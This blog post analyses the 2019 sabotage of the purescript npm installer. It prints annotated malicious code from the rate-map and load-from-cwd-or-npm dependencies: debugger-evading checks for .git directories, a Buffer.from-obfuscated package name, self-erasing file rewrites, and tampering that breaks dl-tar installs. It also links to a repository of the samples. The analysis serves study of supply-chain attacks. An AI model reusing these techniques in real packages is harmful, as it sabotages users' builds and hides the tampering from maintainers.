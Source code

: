 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ``if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }``

  `} else {`

    // call  tasks.unshift 1

  `tasks.unshift(resolveSemverFromNpm);

  }`

      //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")


`do {   
 parent = parent.parent;`

  `try {
    const {path} = parent;`

    //the attacker is deciding whether or not to run the exploit code,
    //by checking on the version of the purescript npm installer,
    //and if there is a .git working directory.  
    //If the code detects a .git working directory, it'll skip the exploit.
    //This is because .git directories aren't present in production environments,
    //so it makes debugging this issue way harder.
    // The intent is to  determine if a particular version of an installer is being run,
    //and if the code is being run in a environment where it could be easily debugged!



`if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
      parent = 'npm';
      break;
    }
  } catch (_) {}
} while (parent);`

    //The purpose of this parent variable is just the layup for the exploit code if
      //the above conditions are met to allow for it.


`if (typeof parent !== 'string') {
    return results[2];
}`


    //here's that [2] what's happening here is an if statement
    //returning the PassThrough constructor
    //in the case where the malicious code is being run,
    //this breaks a related function to pull down some
    //packages to complete the building of the software:


`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`




#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");`


    //You'll see the same check here if the code is running in a debug or non production environment.
    //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:


`do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||

        [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {`

      `parent = "npm";
       break;
    }
  } catch (_) {}

} while (parent);

if (typeof parent !== "string") {


  const px = require.resolve(`

      // `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.


`Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );`

      //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!

  `try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}`


      //this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.


  `try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`



#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.

